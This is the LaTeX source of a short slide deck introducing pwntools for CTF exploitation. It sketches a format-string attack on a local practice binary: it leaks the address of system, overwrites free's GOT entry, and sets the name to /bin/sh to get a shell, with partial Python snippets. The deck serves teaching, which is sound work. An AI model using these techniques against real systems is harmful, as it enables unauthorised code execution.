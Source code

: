 \documentclass[t]{beamer}
\title{Short and confusing introduction to Pwntools}
\author{Kokjo / Jonas Rudloff}
\begin{document}
\frame[plain]{\titlepage}

\begin{frame}
    \frametitle{What is pwntools?}
    \begin{itemize}
        \pause \item Pwntools is exploitation framework
        \pause \item For rapidly developing exploits.
        \pause \item Eg. for CTF competitions
        \pause \item Originally developed at the student organization Pwnies at DIKU
        \pause \item https://github.com/Gallopsled/pwntools
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Sample pwnable program}
    
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exploitation with Pwntools!}
    We are going the attack the format string bug in the program,
    \pause but first we need to be able to interact with the program
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
    from pwn import *
    r = process("./pwnable")
    r.interactive()
    \end{lstlisting}
    \pause Yay!
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exploitation plan}
    \begin{itemize}
        \pause \item Leak address of \texttt{system}
        \pause \item ... change the got entry of \texttt{free} to be the address of \texttt{system}
        \pause \item ... and choose our name to be \texttt{/bin/sh}
    \end{itemize}
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 from pwn import *
 r = process("./pwnable")
 r.sendlineafter("What's your name?", "/bin/sh")
    \end{lstlisting}
    \pause and we can call printf like
    \begin{lstlisting}[language=Python, style=custompy]
 @FmtStr
 def printf(s):
     r.sendline(s)
     return r.recvuntil("today?\n", drop=True)
    \end{lstlisting}
    \texttt{FmtStr} is pwntools magic,
    \pause which escalates a format string vulnerability to a full memory leaker,
    \pause and a write-what-where.
    \pause Using standard format string techniques.
\end{frame}
\end{document}
